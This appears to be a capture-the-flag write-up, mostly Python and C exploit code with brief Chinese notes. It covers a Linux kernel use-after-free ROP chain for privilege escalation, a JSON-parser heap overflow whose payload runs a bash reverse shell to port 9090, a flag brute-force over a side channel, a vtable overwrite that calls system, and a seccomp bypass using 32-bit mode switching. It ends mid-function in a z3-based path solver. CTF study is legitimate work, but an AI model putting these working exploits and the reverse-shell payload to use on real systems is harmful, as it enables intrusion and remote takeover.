        unsigned long mov_cr3_rax = kernel_base + (0xffffffff81057fae - 0xffffffff81000000);//: mov cr3, rax ; ret

        unsigned long swapgs = kernel_base + (0xffffffff81c00f58 - 0xffffffff81000000);

        unsigned long iretq = kernel_base + (0xffffffff81024f92 - 0xffffffff81000000);

        unsigned long swapgs_restore = kernel_base + (0xffffffff81c00e26 - 0xffffffff81000000);


        /*

                   0xffffffff816e19bc:        mov    esp,0x83000000

                   0xffffffff816e19c1:        ret 

        */

        unsigned long pivot = kernel_base + 0x6e19bc;

        

        rop = mmap(0x83000000-(0x1000000/2), 0x1000000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0);

        for (int i = 0; i < 0x4 + (0x1000000/2)/8;)

                rop[i++] = 0xffffffff816e19bc;

        

        //rop[i++] = mov_rax_cr3;

        //rop[i++] = pop_rdx;

        //rop[i++] = 0x1000;

        //rop[i++] = or_rax_rdx;

        //rop[i++] = mov_cr3_rax;

        rop[i++] = pop_rdi;

        rop[i++] = 0;

        rop[i++] = prepare_kernel_cred;

        rop[i++] = pop_rcx;

        rop[i++] = 0;

        rop[i++] = mov_rdi_rax_rep;

        rop[i++] = commit_creds;

        rop[i++] = swapgs_restore;

        rop[i++] = 0;

        rop[i++] = 0;

        rop[i++] = shell;

        rop[i++] = tf.cs;

        rop[i++] = tf.rflags;

        rop[i++] = tf.rsp;

        rop[i++] = tf.ss;

        rop[i++] = kernel_base +( 0xffffffff816e19bc - 0xffffffff81000000);

        

        printf("ROP fake stack %p\n", rop);

}

// When testing when being already root.

unsigned long get_text_base(void)

{

        char b[0x10000];

        char *p;

        int ret;

        unsigned long leak;

        int kmsg = open("/dev/kmsg", O_RDONLY);

        assert(kmsg > 0);

        ret = read(kmsg, b, 0x10000);

        assert(ret > 0);

        

        p = strchr(b, 0xff);

        leak = strtoul(p+1, NULL, 10);

        leak -= 0x1f3ecd;

        return leak;

}

int main(int argc, char *argv[])

{

        char buf[0x81];

        int ret;

        unsigned long kernel_base;

        save_state();

        // open the target device driver.

        open_target();

        ret = ioctl(fd, ALLOC, 0x80);

        assert(ret == 0);

        

        //memset(buf, 'M', 0x80);

        strcpy(buf, "data : %lld %lld %lld %lld %lld \xff%lld %lld %lld %lld %lld %lld %lld %lld %lld %lld %lld %lld\n");

        ret = write(fd, buf, 0x80);

        assert(ret > 0);

        // Trying to printk that data we wrote.

        ret = ioctl(fd, GET, 0);

        assert(ret == 0);

        // trying to have the text base!

        if (argc == 1)

                exit(1);

        else

                kernel_base = strtoul(argv[1], NULL, 16) - 0x1f3ecd;

        //kernel_base = get_text_base();

        printf("Kernel base %lx\n", kernel_base);

        setup_chunk_rop(kernel_base);

        getchar();

        // trying to fill that freed chunk with struct subprocess_info

        // Trying to bruteforce it.

        //sleep(0.1);

        // Trying to free our chunk for UAD

        ret = ioctl(fd, UAF, 0);

        assert(ret == 0);

        pthread_t tid;

        pthread_create(&tid, NULL, memset_buf, kernel_base + 0x6e19bc);

        sleep(0.3);

        for(int i = 0; i < 0x1; i++)

                ret = socket(22, AF_INET, 0);

        //write(fd, buf, 0x20);

        sleep(0.3);

        lock = 0;

        //printf("socket returned %d\n", ret);

        getchar();

}
```

### Christmas Wishes

漏洞点在parser_string中没有考虑转义\"的情况 导致堆溢出

字符串中不能写\x00的问题用\u0000绕过 同理可以用hex_parse写任何不可见字符

控制tcache fd为free_hook后用setcontext rop反弹shell出来即可执行gift

远程可先使用readflag读"/proc/self/maps" 泄露libc地址

```Python
from pwn import *

def create_php(buf):

    with open("pwn.php", 'wb+') as pf:

        pf.write(b'''<?php

$data = jsonparser("%s");

readfile($data);

?>'''%buf)

def create_php2(buf):

    with open("pwnjson", 'wb+') as pf:

        pf.write(b'''%s'''%buf)

context.arch = 'amd64'

def pp64(num):

    payload = rb""

    for i in range(4):

        payload += rb"\\u" 

        tmp = bytes(hex((((num & 0xff) << 8) + ((num >> 8) & 0xff)) & 0xffff)[2:],encoding='utf8').rjust(4,b'0')

        payload += tmp

        num = num >> 16

    return payload

# print(pp64(0x1234))

# pp64 = lambda x  : p64(x)[:6] + rb"\\u0000"

libc = ELF('./libc-2.31.so')

# libc_base = 0x7ffff7474000

libc_base = 0x7faea6b33000

rdx_gadget = libc_base + 0x000000000012c050

rdi_ret = libc_base + 0x0000000000026796

ret = 0x000000000002535f + libc_base

rsi_ret = 0x000000000002890f + libc_base 

rdx_ret = 0x00000000000cb1cd + libc_base

# 0x555556606000

# heap_base = 0x555556606000 + 0x1E1600

heap_base = 0x56400792d000+ 0x1E1600

free_hook = libc_base + libc.symbols["__free_hook"]

shell_addr = libc_base + libc.symbols["__free_hook"]+ 0x140

frame = SigreturnFrame()

frame.rip = ret

frame.rsp = heap_base + 0x640 + 0x100

print(unpack_many(bytes(frame)))

payload = rb'''

{

    \"bb\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",

    \"aa\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",

    \"cc\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",

    \"dd\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",

    \"ee\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",

    \"ff\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",

    \"gg\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",

    \"ff\":\"aaaaaa\",

    

    \"ee\":\"aaaaaa\",

    \"dd\":\"aaaaaa\",

    \"zz\":\"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz\\\"'''

payload += rb"b" * 6 + pp64(0x51) + pp64(0) * 9

# payload += pp64(0x31) + pp64(0) * 3

payload += pp64(0x31) + pp64(free_hook - 0x30)

# payload += b'b' * (0x80-2)

# payload += p64(0x7ffff7635e70)[:6]

# payload += rb"\\u0000"

# payload += p64(0x7ffff7635e70)[:6]

# payload += rb"\\u0000"

# payload += p64(0x7ffff7635e70)[:6]

# payload += rb"\\u0000"

payload += rb'\",'

payload +=rb'''

    \"address\":\"'''

payload += rb'a' *0x20 + rb'\",'

payload +=rb'''

    \"rop\":\"'''

rop = pp64(rdi_ret) + pp64(shell_addr)  + pp64(rsi_ret) + pp64(0) + pp64(rdx_ret) + pp64(0)+ pp64(libc_base+libc.symbols['system'])

payload += pp64(0) + pp64(heap_base + 0x640 + 0x10 - 0xC0 + 0x10) + pp64(0) * 2  +pp64(0)*2 + pp64(libc.symbols['setcontext'] + 53 + libc_base )

payload += pp64(0) * 15 + pp64(heap_base + 0x640 + 0x108 - 0xc0 + 0x10) + pp64(ret) + pp64(0) + pp64(0x51) + pp64(0) * 7

# payload += rop + rb'/bin/bash -c "/bin/bash -i >&/dev/tcp/127.0.0.1/6666 0>&1"'.replace(b' ',rb'\\u2020').replace(b"\"",rb'\\u2022')

payload += rop + rb'/bin/touch /ctf/work/asddd'.replace(b' ',rb'\\u2020').replace(b"\"",rb'\\u2022')

payload += rb'\",'

payload +=rb'''

    \"rops\":\"'''

payload += rb'a'*0x8 + pp64(free_hook + 0x10) +rb"\\\"" + rb"a"*(6+8 + 8) +rb'a' * 8+ pp64(rdx_gadget)  + pp64(libc.symbols['__free_hook'] + libc_base + 0x10) + pp64(0) * 2  +pp64(0)*2 + pp64(libc.symbols['setcontext'] + 53 + libc_base ) 

# payload += bytes(frame)[0x28:].replace(b'\x00\x00',rb'\\u0000')

payload += pp64(0) * 15 + pp64(libc_base + 0x1C1E70 + 0x108) + pp64(ret) + pp64(0) + pp64(0x51) + pp64(0) * 7 

payload += rop + rb'/bin/bash -c "/bin/bash -i >&/dev/tcp/xxx.xx.xx.xx/9090 0>&1"'.replace(b' ',rb'\\u2020').replace(b"\"",rb'\\u2022')

payload += rb'\",'

payload +=rb'''

    \"rops\":\"'''

payload += rb'a' *0x20 + rb'\",'

payload += rb'''

}

'''

# create_php(payload.replace(rb'\"',rb'"'))

create_php(payload)

create_php2(payload.replace(rb'\"',rb'"'))
```

然后将`pwnjson`里面的'\\'替换成'\' 复制到文本框中点击发送即可

web服务堆环境很乱 需要多次爆破尝试.





pwnjson如下:

```Plain%20Text
{

    "bb":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

    "aa":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

    "cc":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

    "dd":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

    "ee":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

    "ff":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

    "gg":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

    "ff":"aaaaaa",

    

    "ee":"aaaaaa",

    "dd":"aaaaaa",

    "zz":"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz\"bbbbbb\u5100\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u3100\u0000\u0000\u0000\u404e\ucfa6\uae7f\u0000",

    "address":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

    "rop":"\u0000\u0000\u0000\u0000\ua0eb\ub007\u4056\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u25e7\ub7a6\uae7f\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u98ec\ub007\u4056\u0000\u5f83\ub5a6\uae7f\u0000\u0000\u0000\u0000\u0000\u5100\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u9697\ub5a6\uae7f\u0000\ub04f\ucfa6\uae7f\u0000\u0fb9\ub5a6\uae7f\u0000\u0000\u0000\u0000\u0000\ucde1\ubfa6\uae7f\u0000\u0000\u0000\u0000\u0000\u50be\ub7a6\uae7f\u0000/bin/touch\u2020/ctf/work/asddd",

    "rops":"aaaaaaaa\u804e\ucfa6\uae7f\u0000\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\u50f0\uc5a6\uae7f\u0000\u804e\ucfa6\uae7f\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u25e7\ub7a6\uae7f\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u784f\ucfa6\uae7f\u0000\u5f83\ub5a6\uae7f\u0000\u0000\u0000\u0000\u0000\u5100\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u9697\ub5a6\uae7f\u0000\ub04f\ucfa6\uae7f\u0000\u0fb9\ub5a6\uae7f\u0000\u0000\u0000\u0000\u0000\ucde1\ubfa6\uae7f\u0000\u0000\u0000\u0000\u0000\u50be\ub7a6\uae7f\u0000/bin/bash\u2020-c\u2020\u2022/bin/bash\u2020-i\u2020>&/dev/tcp/xxx.xxx.xxx.xx/9090\u20200>&1\u2022",

    "rops":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",

}
```

### Christmas Song 

逆向scan.l 和 parser.y文件得到slang语言语法文法

通过call function open flag read flag 然后利用strncmp侧信道爆破flag

```Python
from pwn import *

import string

context.log_level = 'debug'

# sh = remote('124.71.144.133', 2144)

payload = '''

gift work is "12345678901234567890123456789012345678901234567890";

gift path is "/home/ctf/flag";

gift oflag is 0;

gift temp is 0;

gift Size is 48;

gift fd is 0;

gift flag is "{0}";

gift Ans is 1;

gift zero is 0;

gift flagsize is {1};

reindeer Dancer delivering gift path oflag temp brings back gift fd;

reindeer Dasher delivering gift fd work Size;

reindeer Prancer delivering gift work flag flagsize brings back gift Ans;

this family wants gift Ans if the gift is Ans equal to zero : reindeer Rudolph delivering gift path oflag temp brings back gift fd; ok, they should already have a gift;

EOF

'''

flag = 'SCTF{Merry'

cnt  = 11

stringset = string.printable

while True:

    for i in stringset:

        temp = flag + i

        log.success(temp)

        sh = remote('124.71.144.133', 2144)

        sh.sendafter('(EOF to finish):', payload.format(temp, cnt))

        # log.success(payload.format(temp, cnt))

        try :

            sh.recvuntil('error:')

        except EOFError:

            sh.close()

        else:

            flag += i

            cnt += 1

            sh.close()

            break

    

    log.success('flag=' + flag)

sh.interactive()
```

### Christmas Bash

在开始时候将sleep变量的值设置成了libc中sleep可以用此求出libcbase

然后将_IO_2_1_stdout_的vtable中的_IO_file_jumps改为system, 利用printf即可触发

```Plain%20Text
 gift libcbase is sleep - 972880;

gift target is libcbase + 2205080;

gift system is libcbase + 346848;

gift Stdout is libcbase + 2201440 + 4;

gift heap is libcbase + 2198720;

gift var is "12345678";

gift Binsh is ";/home/ctf/getflag >&2";

gift Size is 8;

gift tmp is 30;

gift filename is "wood";

gift offset is 1000;

gift var is var + offset;

reindeer Vixen delivering gift target var Size;

reindeer Vixen delivering gift Stdout Binsh tmp;

reindeer Dancer delivering gift filename Size Size; 
```

### Gadget

题目给了一个简单的栈溢出，但是用 seccomp 限制了 syscall 只能有 (fstat)5 和 (read) 0。

于是问题变成了，如何才能打开 flag 文件。查询 syscall 之后发现，在 i386 架构下，syscall number 5 是 open。因此，我们可以通过切换到 32 位的方式来打开 flag，然后再切换回 64 位模式来读取 flag。

但是仍然还有问题，并没有一个 syscall 可以写 flag 到输出，于是我们只能设计一个方法让远程能够判断 flag 某一位是不是某一个字符。这个方法有很多，我这里选择的是，在 gadget 的最后放一个 read stdin 的操作，这样就能让 ROP 执行完之后卡住。但是在卡住之前，会尝试往一个邻近边界的地址 + 当前 flag 字符的位置写入内容，如果越界了就崩溃（这样程序结束之后也就不会卡住了），如果没有越界就不会崩溃。通过这样的方式就可以判断。

由于 read 函数每次只能读入不到 200 个字符，最后我把 ROP 分成了四个阶段，具体 exploit 脚本如下：

```Python
#!/usr/bin/env python3

import os

import time

from zio import *

LOCAL = False

target = './gadget.patched'

if os.getenv('TARGET'):

    ary = os.getenv('TARGET').split(':')

    target = (ary[0], int(ary[1]))

    LOCAL = False

def test(index, guess):

    print('testing %d, guess = %#x' % (index, guess))

    print('target = %r' % (target, ))

    io = zio(target, print_read=COLORED(REPR, 'yellow'), print_write=COLORED(REPR, 'cyan'), timeout=10000)

    if LOCAL:

        io.gdb_hint(breakpoints=[

            # 0x401205,     # before ret

            0x401222,     # before main ret

        ])

    else:

        # do proof of work?

        # io.readline()

        # input('continue?')

        pass

    flag_addr = 0x40d160

    flag_path = b'./flag'

    new_stack2 = 0x40D200

    new_stack3 = 0x40d400

    new_stack4 = 0x40d600

    pop_rax_ret = 0x401001      # pop rax/eax ; ret

    syscall_pop_ret = 0x401165  # syscall ; pop ebp ; ret

    pop_rdi_pop_ret = 0x401734  # pop rdi ; pop rbp ; ret

    pop_r14_pop2_ret = 0x0000000000401731 # pop r14 ; pop r15 ; pop rbp ; ret

    pop_rsi_pop2_ret = 0x0000000000401732 # pop rsi ; pop r15 ; pop rbp ; ret

    pop_rbx_pop3_ret = 0x403072 # pop rbx ; pop r14 ; pop r15 ; pop rbp ; ret | pop ebx ; inc ecx ; pop esi ; inc ecx ; pop edi ; pop ebp ; ret

    store_rdi_rax_ret = 0x0000000000403beb #  mov qword ptr [rdi + rdx - 0x27], rax ; mov rax, rdi ; ret

    access_rcx = 0x0000000000402fee # mov byte ptr [rcx + rdi - 5], 0x89 ; ret

    pop_rcx_ret = 0x000000000040117b    # pop rcx ; ret

    payload = b'_' * 0x30 + b'_____RBP'

    payload += l64(pop_rax_ret)

    payload += flag_path.ljust(8, b'\0')

    payload += l64(pop_rdi_pop_ret)

    payload += l64(flag_addr + 0x27)

    payload += l64(0x5f5f5f5f5f5f5f5f) # fill rbp

    payload += l64(store_rdi_rax_ret)

    payload += l64(pop_rdi_pop_ret)            

    payload += l64(new_stack2)            # bss

    payload += l64(0x5f5f5f5f5f5f5f5f)  # fill rbp

    payload += l64(0x401170)            # read stage2 ROP

    payload += l64(0x401730)            # pop rsp ; pop r14 ; pop r15 ; pop rbp ; ret

    payload += l64(new_stack2)

    payload2 = b'_' * 24

    payload2 += l64(0x401222)

    payload2 += l64(0x4011ed)    # retf

    payload2 += l64(0x401222 | (0x23 << 32))

    # mode switched

    payload2 += l32(pop_rax_ret)

    payload2 += l32(0x5)        # open

    payload2 += l32(pop_rbx_pop3_ret)

    payload2 += l32(flag_addr)

    payload2 += l32(0x5f5f5f5f)

    payload2 += l32(0x5f5f5f5f)

    payload2 += l32(0x5f5f5f5f)

    payload2 += l32(pop_rcx_ret)

    payload2 += l32(0)

    int80_ret = 0x4011f3

    payload2 += l32(int80_ret)

    # switch back

    payload2 += l32(0x4011ed)

    payload2 += l32(0x401222)

    payload2 += l32(0x33)

    payload2 += l64(pop_rdi_pop_ret)            

    payload2 += l64(new_stack3)          # bss

    payload2 += l64(0x5f5f5f5f5f5f5f5f)  # fill rbp

    payload2 += l64(0x401170)            # read stage3 ROP

    payload2 += l64(0x401730)            # pop rsp ; pop r14 ; pop r15 ; pop rbp ; ret

    payload2 += l64(new_stack3)

    # 0x0000000000406a43 : add al, byte ptr [rax] ; add byte ptr [rax + 0x14], bh ; syscall

    # 0x000000000040884e : je 0x408855 ; movsb byte ptr [rdi], byte ptr [rsi] ; dec edx ; jne 0x408850 ; ret

    payload3 = b'_' * 24

    payload3 += l64(pop_rax_ret)

    payload3 += l64(0)

    payload3 += l64(pop_rdi_pop_ret)

    payload3 += l64(3)                  # fd

    payload3 += l64(0x5f5f5f5f5f5f5f5f)

    payload3 += l64(pop_rsi_pop2_ret)    

    payload3 += l64(flag_addr)

    payload3 += l64(0x5f5f5f5f5f5f5f5f)

    payload3 += l64(0x5f5f5f5f5f5f5f5f)

    payload3 += l64(syscall_pop_ret)

    payload3 += l64(0x5f5f5f5f5f5f5f5f)

    payload3 += l64(pop_rdi_pop_ret)            

    payload3 += l64(new_stack4)          # bss

    payload3 += l64(0x5f5f5f5f5f5f5f5f)  # fill rbp

    payload3 += l64(0x401170)            # read stage3 ROP

    payload3 += l64(0x401730)            # pop rsp ; pop r14 ; pop r15 ; pop rbp ; ret

    payload3 += l64(new_stack4)

    payload4 = b'_' * 24

    payload4 += l64(pop_rcx_ret)

    payload4 += l64(0x40e000 - 1 + 5 - guess)

    payload4 += l64(pop_rbx_pop3_ret)

    payload4 += l64(0)      # rbx = 0

    payload4 += l64(access_rcx)       # r14

    payload4 += l64(0x5f5f5f5f5f5f5f5f) # r15

    payload4 += l64(0x5f5f5f5f5f5f5f5f) # rbp

    payload4 += l64(pop_rax_ret)

    payload4 += l64(flag_addr + index)

    payload4 += l64(pop_rsi_pop2_ret)

    payload4 += l64(0) + l64(0) + l64(0)

    payload4 += l64(0x4011BE)   # mov bl, [rsi+rax]; mov rdi, rbx; push r14; ret

    payload4 += l64(pop_rdi_pop_ret)

    payload4 += l64(flag_addr)

    payload4 += l64(0x5f5f5f5f5f5f5f5f)

    payload4 += l64(0x401170)

    for i, p in enumerate([payload, payload2, payload3, payload4]):

        if LOCAL:

            input('stage%d?' % (i+1))

        else:

            time.sleep(0.1)

        if len(p) > 0xc0:

            raise ValueError('payload2 too long: %#x' % len(p))

        io.writeline(p)

    try:

        io.read_until_timeout(1)

        if io.is_eof_seen():

            io.close()

            return False

        else:

            io.close()

            return True

    except ConnectionResetError:

        return False

flag = b''

while True:

    for i in range(32, 127):

        v = test(len(flag), i)

        if v:

            flag += bytes([i])

            break

    print('flag = %s' % flag)

    if flag.endswith(b'}'):

        break
```

### CheckIn ret2text

连接上端口并且做了 PoW 验证之后，会发送回来一个 base64 的 ELF，打开之后发现是很多运算逻辑，最后在某个深处有一个栈溢出。但是为了达到这个栈溢出的位置，需要自动选择正确的输入到达这个路径。

看起来需要 “符号执行” 技术来达到这样的条件。不过由于对 angr 不太熟，同时也想尝试一下手糙 “符号执行” 的难度有多大，这里选择直接使用 z3 来做。不过这样的代价是，代码量有点收不住。。一道简单的栈溢出题目，写了 500 多行代码，有点超出预想了。。

仔细观察题目发回来的 ELF，我们可以发现以下两个特征：

- 路径很多，但是实际上是一个二叉树结构，没有环形，也没有其他结构。而漏洞函数就在二叉树叶子节点的某个分支。

- 虽然验证代码比较长，但是总共只有两种，一种是输入几个数字，计算一道数学题；另一种是输入一段字符串，然后做一些位运算之后，与一个结果相比较。

因此可以用以下思路来解决：

- 先把 ELF 做反汇编，然后建立每一个指令和能达到的指令的关联。

- 遍历指令，找到溢出的地方在哪里。

- 根据第一步形成的关联，反向一直寻路到 main 函数起点（毕竟没有环路），并标记沿途中有多个出口指令的分叉选择。

- 最后再从 main 函数正向走到漏洞点，根据路径分叉选择来计算正确的输入是什么。如果是需要匹配的，那么用 z3 计算出正确的结果；如果不需要匹配的，那么随机生成一个输入即可通过。

最后基于上述思路，添加亿点点细节，即可拿到 flag（可能是有史以来为一个 pwn 题写过的最长的代码）：

```Python
#!/usr/bin/env python3

import os

from typing import List

import subprocess

import base64

import random

import re

from dataclasses import dataclass

from z3 import Solver, BitVec, BitVecVal, sat, unsat

from zio import *

@dataclass

class Ins:

    index: int

    addr: str

    exits: List[str]

    opcode: str

    args: List[str]

    choice: str

    def __str__(self):

        return '%s: %s %s -> %s' % (self.addr, self.opcode, ','.join(self.args), self.exits)

def load_disasm(filepath):

    valid = False

    cnt = 0

    instructions = []

    mapping = {}

    reverse_map = {}

    for line in open(filepath):

        cnt += 1

        if '<main>:' in line:

            valid = True

            continue

        elif '<_Unwind_Resume@plt>' in line:

            valid = False

            continue

        if not valid or not line.strip():

            continue

        ary = line[:-1].split('\t')

        addr = ary[0].split(':')[0].strip()

        instruction = ary[2].split('#')[0].strip()

        ary = instruction.split(maxsplit=1)

        if len(ary) == 2:

            opcode, args = ary

        else:

            opcode = ary[0]

            args = ''

        args = args.split(',')

        ins = Ins(

            index=len(instructions),

            addr=addr,

            opcode=opcode,

            args=args,

            exits=[],

            choice=None,

        )

        target = args[0].split(' ')[0]

        if opcode == 'jmp':

            ins.exits.append(target)

            reverse_map.setdefault(target, [])

            reverse_map[target].append(addr)

        elif opcode in ['je', 'jne', 'jg', 'jbe']:

            ins.exits.append(None)

            ins.exits.append(target)

            reverse_map.setdefault(target, [])

            reverse_map[target].append(addr)

        else:

            ins.exits.append(None)

            if opcode.startswith('j'):

                raise ValueError('unhandled jmp: %s' % opcode)

        if len(instructions) and instructions[-1].exits[0] is None:

            instructions[-1].exits[0] = addr

            reverse_map.setdefault(addr, [])

            reverse_map[addr].append(instructions[-1].addr)

        instructions.append(ins)

        mapping[addr] = ins

    for ins in instructions:

        print(ins)

    return instructions, mapping, reverse_map

def find_overflow():

    pattern = re.compile(r'\[rbp-(\w+)\]')

    for i, ins in enumerate(instructions):

        if ins.opcode == 'call' and 'input_line' in ins.args[0]:

            lea_rax_rbp = instructions[i-3]

            assert lea_rax_rbp.opcode == 'lea'

            assert lea_rax_rbp.args[0] == 'rax'

            mo = pattern.match(lea_rax_rbp.args[1])

            if not mo:

                raise ValueError('opcode incorrect: %s' % lea_rax_rbp.args[1])

            offset = int(mo.group(1), 0)

            mov_esi = instructions[i-2]

            assert mov_esi.opcode == 'mov'

            assert mov_esi.args[0] == 'esi'

            length = int(mov_esi.args[1], 0)

            if length - offset >= 8:

                return i, offset, length

def find_path(idx):

    addr = instructions[idx].addr

    path = [addr]

    while True:

        prev = reverse_map[addr]

        if len(prev) > 1:

            raise ValueError('multiple path: %s' % prev)

        prev = prev[0]

        mapping[prev].choice = addr

        addr = prev

        path.append(addr)

        if mapping[addr].index == 0:

            break

    for p in path[::-1]:

        print(p)

def parse(symbols, operand:str, size=32):

    try:

        return BitVecVal(int(operand, 0), size)

    except:

        return symbols[operand]

def store(symbols:dict, operand:str, value):

    symbols[operand] = value

def add(solver, symbols, args, size=32):

    a = parse(symbols, args[0], size=size)

    b = parse(symbols, args[1], size=size)

    c = a + b

    store(symbols, args[0], c)

def sub(solver, symbols, args, size=32):

    a = parse(symbols, args[0], size=size)

    b = parse(symbols, args[1], size=size)

    c = a - b

    store(symbols, args[0], c)

def imul(solver, symbols, args, size=32):

    a = parse(symbols, args[0], size=size)

    b = parse(symbols, args[1], size=size)

    c = a * b

    store(symbols, args[0], c)

def xor(solver, symbols, args, size=32):

    a = parse(symbols, args[0], size=size)

    b = parse(symbols, args[1], size=size)

    c = a ^ b

    store(symbols, args[0], c)

def mov(solver, symbols, args, size=32):

    b = parse(symbols, args[1])

    store(symbols, args[0], b)

def bitwise_not(solver, symbols, args, size=32):

    a = parse(symbols, args[0], size=size)

    c = ~a

    store(symbols, args[0], c)

def cmp(solver, symbols, args, size=32):

    a = parse(symbols, args[0])

    b = parse(symbols, args[1])

    solver.add(a == b)

    

def solve_math(block, match):

    print('solve_math')

    for b in block:

        print(' ', b)

    # DWORD PTR [rbp-0x5e0]

    pattern = re.compile(r'DWORD PTR \[rbp-(\w+)\]')

    solver = Solver()

    symbols = {}

    user_input = []

    ops = {

        'mov': mov,

        'add': add,

        'sub': sub,

        'cmp': cmp,

        'xor': xor,

        'imul': imul,

    }

    i = 0

    while i < len(block):

        ins = block[i]

        if ins.opcode == 'call' and 'input_val' in ins.args[0]:

            store_ins = block[i+1]

            assert store_ins.opcode == 'mov'

            assert store_ins.args[1] == 'eax'

            mo = pattern.match(store_ins.args[0])

            if not mo:

                print(store_ins)

                raise ValueError('not match')

            else:

                bv = BitVec(store_ins.args[0], 32)

                user_input.append(bv)

                symbols[store_ins.args[0]] = bv

            i += 2

        else:

            if len(user_input):

                ops[ins.opcode](solver, symbols, ins.args, size=32)

            i += 1

            

    if not match:

        return [random.randint(0, 65535) for i in range(len(user_input))]

    if solver.check() == sat:

        m = solver.model()

        ret = []

        for i in range(len(user_input)):

            v = m[user_input[i]]

            if v is not None:

                ret.append(v.as_long())

            else:

                ret.append(0x5f)

        return ret

    raise Exception('unsat')

def solve_array(block, match):

    print('solve_array')

    for b in block:

        print(' ', b)

    

    solver = Solver()

    symbols = {}

    pattern  = re.compile(r'\[rbp-(\w+)\]')

    pattern2 = re.compile(r'\[rip\+(\w+)\]')

    user_input = []

    ops = {

        'movzx': mov,

        'mov': mov,

        'add': add,

        'sub': sub,

        'cmp': cmp,

        'xor': xor,

        'not': bitwise_not,

    }

    i = 0

    while i < len(block):

        ins = block[i]

        print(i, ins)

        if ins.opcode == 'call' and 'input_line' in ins.args[0]:

